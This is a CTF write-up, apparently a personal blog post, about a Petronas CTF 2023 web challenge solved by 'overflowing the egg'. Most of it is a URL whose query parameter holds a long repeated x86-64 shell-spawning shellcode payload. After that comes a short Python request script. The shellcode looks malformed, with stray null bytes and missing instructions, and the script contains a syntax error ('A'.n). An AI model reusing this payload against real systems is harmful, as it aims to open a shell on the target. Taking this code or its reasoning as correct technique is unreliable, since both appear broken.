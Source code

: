 ```yaml
---
title: 'PetronasCTF2023 Web Challenge: Henny Peony Got Hit on the Head; with an egg! Writeup'
date: 2023-10-11 00:35:22
author: w0rmhol3
categories: Write-Up
tags: Web CTF
---
```

Petronas CTF 2023 is a local CTF organized by Petroliam Nasional Berhad Malaysia. The CTF was held on 9th and 10th October 2023, in Kuala Lumpur Convention Center for 2 days with an elimination round and a top 25 final round. The challenges were quite interesting and majority are great quality challenge. In this web challenge an featureless website was provided. <!--more-->

`Websiteimg`

As you can see there's literally nothing but a string `You are not near the egg yet`.

`Sourceimg`

I had even try to see if there's anything to be revealed within the source code but there's nothing at all. I had tried to execute command injection within the url by going through different parameters in such as `https://petronasgraduate-quantum.chals.io/?command=(ls)` and had tried going through XSS, SSTI, Header manipulation and other possible exploitation. In the end, the solution found to exploit this website is to run command injection and overflow it. Through the challenge a hint stating that `"is it possible to overflow the egg?"` (or similar context). So from the clue, I had found related buffer overflow technique called `Egg Hunter`. From that reference that related to the theme of the challenge. So one of the method I found is to try to overflow it through the URL side by pasting a bunch of payload onto the injection: 

```sh
https://petronasgraduate-quantum.chals.io/?egg=\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05
```

This solution was not done during the competition and was only found that it works after the competition had ended.

The solution done during the competition was through scripting:

```sh
import requests as request

def overflow(n):
    url = "https://petronasgraduate-quantum.chals.io/?egg={}".format("A".n)
    r = request.get(url)
    print(r.text)
```

Then running overflow(6000), I had retrieved the flag by overflowing the system.